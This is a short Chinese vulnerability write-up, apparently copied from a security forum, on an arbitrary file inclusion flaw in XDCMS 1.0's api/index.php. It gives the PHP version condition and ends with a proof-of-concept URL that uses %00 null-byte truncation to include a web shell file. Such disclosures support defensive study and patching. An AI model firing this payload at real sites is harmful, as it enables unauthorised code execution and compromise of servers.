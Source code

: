# XDCMS 1.0 任意文件包含漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3277](https://www.zhihuifly.com/t/topic/3277)

# XDCMS 1.0 任意文件包含漏洞

## 一、漏洞简介

要求PHP版本小于5.3，否则无法使用%00截断

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

漏洞文件：`api\index.php`

![image](img/089914149bb3241de69e6b55dbb8ed75.png)

![image](img/6ffe08166b8720056665a4a0e0742dfd.png)

安全过滤函数 发生鸡肋

很明显 %00截断

```
http://www.0-sec.org/api/index.php?c=xxxxxx%00dama.php 
```